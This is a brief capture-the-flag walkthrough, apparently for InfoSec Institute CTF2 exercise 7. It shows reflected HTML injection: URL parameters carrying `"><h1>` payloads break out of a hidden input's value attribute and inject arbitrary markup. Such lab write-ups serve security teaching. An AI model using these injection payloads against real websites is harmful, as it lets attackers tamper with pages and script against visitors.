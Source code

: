 Add in url parameter action(see html-code) with any tag

`http://ctf.infosecinstitute.com/ctf2/exercises/ex7.php?action="><h1>`

get url with error

`http://ctf.infosecinstitute.com/ctf2/e?arg=xercises/ex7.php?action="><h1>`

go back and break this 

`<input name="action" type="hidden" value="/ctf2/exercises/ex7.php               ">`

in url write

`http://ctf.infosecinstitute.com/ctf2/exercises/ex7.php?arg='><h1>YOUR NAME HERE</h1>`

done.